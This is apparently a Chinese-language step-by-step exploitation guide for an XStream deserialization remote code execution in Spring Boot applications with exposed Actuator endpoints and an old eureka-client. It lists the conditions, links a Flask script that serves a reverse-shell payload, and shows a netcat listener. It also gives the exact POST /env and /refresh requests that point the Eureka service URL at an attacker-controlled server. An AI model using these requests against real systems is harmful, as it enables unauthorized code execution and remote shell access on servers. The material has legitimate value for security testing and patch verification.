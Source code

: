 #### 0x03：eureka xstream deserialization RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标使用的 `eureka-client` < 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

**利用方法：**

**步骤一：架设响应恶意 XStream payload 的网站**

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。

**步骤二：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 443
```

**步骤三：设置 eureka.client.serviceUrl.defaultZone 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

